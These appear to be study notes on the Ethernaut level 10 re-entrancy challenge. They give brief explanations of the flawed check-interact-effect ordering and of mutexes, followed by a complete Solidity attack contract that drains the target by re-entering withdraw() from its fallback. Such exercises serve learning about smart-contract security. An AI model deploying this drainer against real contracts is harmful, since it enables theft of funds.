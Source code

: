 *Flaw

Check > Interact > Effect(wrong order) - leads to re-entrancy flaw 

Externally owned account (EOA)... 

*Assumption => Baked in assumption that we are going to interact with an EOA. but in the real-world contracts a fair game too. 

Fallbacks... We are going to "fallback" into the target over and over, until we remove all the funds.

 mutex (mutual exclusion object)

 a program object that is created so that multiple program thread can take turns sharing the same resource, such as access to a file.

//24:00- code review 

---
/これも試してみた from DEV https://dev.to/nvn/ethernaut-hacks-level-10-re-entrancy-42o9
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```
